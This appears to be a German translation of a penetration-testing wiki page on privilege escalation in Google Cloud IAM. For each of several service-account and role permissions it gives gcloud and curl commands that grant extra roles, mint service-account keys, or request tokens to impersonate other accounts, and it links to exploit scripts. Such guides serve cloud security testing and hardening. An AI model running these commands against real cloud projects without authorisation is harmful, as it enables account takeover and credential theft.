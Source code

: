 # GCP - IAM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## IAM

Finden Sie weitere Informationen zu IAM in:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### `iam.roles.update` (`iam.roles.get`)

Ein Angreifer mit den genannten Berechtigungen kann eine Ihnen zugewiesene Rolle aktualisieren und Ihnen zusätzliche Berechtigungen für andere Ressourcen wie:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Sie können ein Skript zur Automatisierung der **Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier** finden und ein Python-Skript, um dieses Privileg [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py) auszunutzen. Für weitere Informationen überprüfen Sie die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, **ein Zugriffstoken anzufordern, das zu einem Dienstkonto gehört**, sodass es möglich ist, ein Zugriffstoken eines Dienstkontos mit mehr Berechtigungen als unserem anzufordern.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Sie können ein Skript zur Automatisierung der [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) finden und ein Python-Skript, um dieses Privileg auszunutzen [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). Für weitere Informationen überprüfen Sie die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, **einen benutzerverwalteten Schlüssel für ein Dienstkonto zu erstellen**, was uns den Zugriff auf GCP als dieses Dienstkonto ermöglicht.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Sie finden ein Skript zur Automatisierung der [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) und ein Python-Skript, um dieses Privileg auszunutzen [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). Für weitere Informationen siehe die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Beachten Sie, dass **`iam.serviceAccountKeys.update` nicht funktioniert, um den Schlüssel** eines SA zu ändern, da dafür auch die Berechtigung `iam.serviceAccountKeys.create` erforderlich ist.

### `iam.serviceAccounts.implicitDelegation`

Wenn Sie die **`iam.serviceAccounts.implicitDelegation`** Berechtigung für ein Dienstkonto haben, das die **`iam.serviceAccounts.getAccessToken`** Berechtigung für ein drittes Dienstkonto hat, können Sie implicitDelegation verwenden, um **ein Token für dieses dritte Dienstkonto zu erstellen**. Hier ist ein Diagramm zur Erklärung.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Beachten Sie, dass laut der [**Dokumentation**](https://cloud.google.com/iam/docs/understanding-service-accounts) die Delegation von `gcloud` nur funktioniert, um ein Token mit der [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) Methode zu generieren. Hier ist, wie Sie ein Token direkt über die API erhalten:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
Sie können ein Skript zur Automatisierung der [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) finden und ein Python-Skript, um dieses Privileg auszunutzen, [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). Für weitere Informationen lesen Sie die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, **beliebige Payloads in GCP zu signieren**. Es wird also möglich sein, **ein unsigniertes JWT des SA zu erstellen und es dann als Blob zu senden, um das JWT vom SA, das wir anvisieren, signieren zu lassen**. Für weitere Informationen [**lesen Sie dies**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

Sie können ein Skript zur Automatisierung der [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) finden und ein Python-Skript, um dieses Privileg auszunutzen, [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) und [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). Für weitere Informationen lesen Sie die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, **wohlgeformte JSON-Web-Token (JWTs) zu signieren**. Der Unterschied zur vorherigen Methode besteht darin, dass **wir anstelle von Google, das ein Blob mit einem JWT signiert, die signJWT-Methode verwenden, die bereits ein JWT erwartet**. Dies macht die Verwendung einfacher, aber Sie können nur JWTs anstelle von beliebigen Bytes signieren.

Sie können ein Skript zur Automatisierung der [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) finden und ein Python-Skript, um dieses Privileg auszunutzen, [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). Für weitere Informationen lesen Sie die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, **IAM-Richtlinien zu Dienstkonten hinzuzufügen**. Sie können dies ausnutzen, um **sich selbst** die Berechtigungen zu gewähren, die Sie benötigen, um das Dienstkonto zu impersonieren. Im folgenden Beispiel gewähren wir uns die Rolle `roles/iam.serviceAccountTokenCreator` über das interessante SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
Sie finden ein Skript zur Automatisierung der [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

Die **iam.serviceAccounts.actAs-Berechtigung** ist wie die **iam:PassRole-Berechtigung von AWS**. Sie ist entscheidend für die Ausführung von Aufgaben, wie das Starten einer Compute Engine-Instanz, da sie die Fähigkeit gewährt, "als" ein Dienstkonto zu agieren, was eine sichere Berechtigungsverwaltung gewährleistet. Ohne dies könnten Benutzer unrechtmäßigen Zugriff erhalten. Darüber hinaus umfasst die Ausnutzung der **iam.serviceAccounts.actAs** verschiedene Methoden, von denen jede eine Reihe von Berechtigungen erfordert, im Gegensatz zu anderen Methoden, die nur eine benötigen.

#### Dienstkonto-Impersonation <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Die Impersonation eines Dienstkontos kann sehr nützlich sein, um **neue und bessere Berechtigungen zu erhalten**. Es gibt drei Möglichkeiten, wie Sie [ein anderes Dienstkonto impersonieren können](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account):

- Authentifizierung **mit RSA-Privatschlüsseln** (oben behandelt)
- Autorisierung **mit Cloud IAM-Richtlinien** (hier behandelt)
- **Bereitstellung von Jobs auf GCP-Diensten** (mehr anwendbar auf den Kompromiss eines Benutzerkontos)

### `iam.serviceAccounts.getOpenIdToken`

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, ein OpenID JWT zu generieren. Diese werden verwendet, um die Identität zu bestätigen und tragen nicht unbedingt eine implizite Autorisierung gegenüber einer Ressource.

Laut diesem [**interessanten Beitrag**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b) ist es notwendig, das Publikum (den Dienst, bei dem Sie das Token zur Authentifizierung verwenden möchten) anzugeben, und Sie erhalten ein von Google signiertes JWT, das das Dienstkonto und das Publikum des JWT angibt.

Sie können ein OpenIDToken generieren (wenn Sie den Zugriff haben) mit:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Dann können Sie es einfach verwenden, um auf den Dienst zuzugreifen mit:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Einige Dienste, die die Authentifizierung über diese Art von Tokens unterstützen, sind:

- [Google Cloud Run](https://cloud.google.com/run/)
- [Google Cloud Functions](https://cloud.google.com/functions/docs/)
- [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
- [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (wenn Google OIDC verwendet wird)

Sie finden ein Beispiel, wie man ein OpenID-Token im Namen eines Dienstkontos erstellt [**hier**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Referenzen

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}
